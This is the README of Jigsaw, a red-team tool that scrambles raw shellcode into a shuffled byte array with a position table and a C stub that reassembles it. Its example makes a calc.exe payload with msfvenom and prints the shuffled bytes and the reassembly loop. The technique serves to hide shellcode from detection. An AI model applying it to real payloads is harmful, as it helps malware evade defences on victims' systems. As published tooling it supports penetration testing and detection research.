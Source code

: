 # Jigsaw
Jigsaw takes a raw shellcode input and outputs randomized shellcode, a lookup table, and a C/C++ stub to translate the randomized shellcode back to a usable format.

Read the Red Siege blog post explaining Jigsaw: [https://redsiege.com/blog/2024/03/jigsaw/](https://redsiege.com/blog/2024/03/jigsaw/)

## Usage
```python3 jigsaw.py inputfile.bin```

## Example
```
$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
$ python3 jigsaw.py calc.bin
$ cat jigsaw.txt
unsigned char jigsaw[276] = {0x5d, 0x8b, 0x8d, 0xc0, 0x01, 0x48, 0x80, 0x00, 0x87, 0x7c, 0xc0, 0x74, 0x48, 0x58, 0xd1, 0x95, 0x00, 0xe9, 0xbd, 0x63, 0xe0, 0x01, 0x65, 0x01, 0x4a, 0x48, 0x6f, 0x44, 0x6a, 0xa2, 0x0a, 0x4c, 0xb7, 0x88, 0x5a, 0x01, 0xbb, 0xac, 0x0d, 0xba, 0x4d, 0x41, 0x59, 0x42, 0x49, 0x50, 0x5e, 0xbb, 0x5a, 0x41, 0x83, 0xc9, 0x28, 0x20, 0x00, 0x52, 0x00, 0xd2, 0x24, 0x41, 0x4a, 0x01, 0xff, 0xd0, 0xff, 0x56, 0x20, 0x31, 0x56, 0x8b, 0x6c, 0x31, 0x12, 0xf0, 0x34, 0x48, 0xac, 0x41, 0x8b, 0x01, 0x58, 0x48, 0x48, 0x04, 0x88, 0x48, 0xff, 0x52, 0x05, 0x65, 0xc9, 0xc1, 0x48, 0x8b, 0x75, 0x40, 0xd0, 0x59, 0x4d, 0xff, 0x61, 0x1c, 0x75, 0x4c, 0x01, 0x52, 0x8b, 0xc9, 0x56, 0x8b, 0x0c, 0x48, 0x58, 0xf1, 0x41, 0x31, 0x00, 0xd0, 0xd0, 0xec, 0x00, 0x59, 0x13, 0xe0, 0x72, 0x8b, 0x48, 0xff, 0x40, 0xd0, 0x00, 0x02, 0x75, 0x85, 0x20, 0x80, 0xc4, 0x58, 0x48, 0xd6, 0xd8, 0x47, 0x41, 0x59, 0x48, 0x01, 0xa6, 0xda, 0x8b, 0x41, 0xc1, 0x00, 0xc1, 0x48, 0xff, 0x52, 0x00, 0xfc, 0x51, 0x3c, 0x8b, 0x57, 0xe2, 0x2c, 0x0d, 0x01, 0xed, 0x31, 0x58, 0x7c, 0xd5, 0x01, 0x41, 0x00, 0x3c, 0x45, 0x51, 0x01, 0x08, 0x41, 0x49, 0x65, 0x00, 0x44, 0x52, 0xd0, 0x48, 0x52, 0x00, 0x5a, 0x8b, 0x3c, 0xe8, 0xe3, 0x48, 0x40, 0x8d, 0xba, 0x31, 0x44, 0x01, 0xfb, 0xf0, 0x48, 0x83, 0x51, 0x2e, 0x8b, 0x00, 0x83, 0x48, 0x61, 0x00, 0x66, 0x88, 0x00, 0x41, 0x41, 0xd5, 0x06, 0x41, 0xe4, 0x52, 0x38, 0x60, 0x20, 0x6f, 0xc0, 0x48, 0x49, 0x41, 0x20, 0x63, 0xc0, 0x72, 0xc1, 0x8b, 0x39, 0xc9, 0xba, 0x78, 0x8b, 0x41, 0x8b, 0x41, 0x00, 0xff, 0x8b, 0x89, 0x48, 0x00, 0x31, 0xff, 0x41, 0x41, 0x50, 0xb5, 0x03, 0x48, 0x41, 0x18, 0x67, 0x48, 0x41, 0x50, 0x0f, 0x8b, 0x48, 0xe0, 0xd5, 0x24, 0x18, 0xc9, 0x9d, 0x48, 0x41 };

int positions[276] = { 202, 22, 214, 6, 126, 104, 249, 81, 225, 51, 119, 86, 182, 142, 139, 236, 208, 197, 237, 267, 251, 89, 272, 217, 41, 83, 258, 95, 259, 231, 248, 132, 39, 110, 193, 148, 228, 48, 124, 234, 42, 107, 179, 72, 99, 91, 173, 254, 175, 121, 242, 116, 244, 70, 211, 23, 8, 19, 146, 169, 40, 167, 226, 168, 201, 103, 54, 222, 232, 96, 269, 18, 196, 229, 109, 29, 120, 55, 163, 100, 172, 25, 1, 164, 79, 33, 105, 27, 253, 20, 44, 122, 241, 223, 140, 157, 90, 261, 114, 199, 268, 158, 252, 134, 112, 187, 34, 57, 16, 108, 153, 194, 170, 131, 262, 115, 209, 149, 161, 184, 82, 174, 256, 129, 35, 156, 111, 188, 145, 76, 275, 52, 130, 84, 185, 78, 243, 177, 21, 113, 141, 255, 176, 192, 154, 216, 235, 264, 92, 191, 127, 260, 56, 88, 265, 69, 219, 0, 66, 49, 77, 198, 62, 53, 58, 205, 63, 46, 190, 247, 227, 160, 233, 206, 245, 137, 15, 75, 136, 151, 147, 274, 212, 155, 64, 101, 37, 14, 218, 181, 68, 73, 5, 102, 203, 97, 215, 204, 118, 143, 60, 250, 4, 67, 183, 11, 271, 71, 9, 2, 74, 50, 7, 150, 165, 207, 65, 10, 266, 246, 171, 3, 31, 128, 24, 32, 224, 47, 45, 159, 162, 98, 270, 85, 257, 61, 195, 138, 106, 221, 273, 30, 180, 152, 125, 210, 239, 26, 263, 117, 80, 43, 200, 220, 178, 36, 230, 133, 17, 186, 94, 87, 93, 12, 13, 38, 144, 166, 189, 240, 135, 28, 123, 238, 213, 59 };


unsigned int calc_len = 276;
char calc_payload[276] = { 0x00 };
int position;

// Reconstruct the payload
for (int idx = 0; idx < sizeof(positions) / sizeof(positions[0]); idx++) {
        position = positions[idx];
        calc_payload[position] = jigsaw[idx];
}
